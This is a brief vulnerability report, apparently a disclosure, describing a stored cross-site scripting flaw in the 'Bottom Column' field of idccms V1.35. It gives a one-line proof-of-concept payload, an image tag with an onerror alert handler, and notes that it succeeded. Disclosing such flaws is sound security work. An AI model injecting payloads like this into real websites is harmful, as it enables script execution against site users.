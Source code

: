 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Bottom Column' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
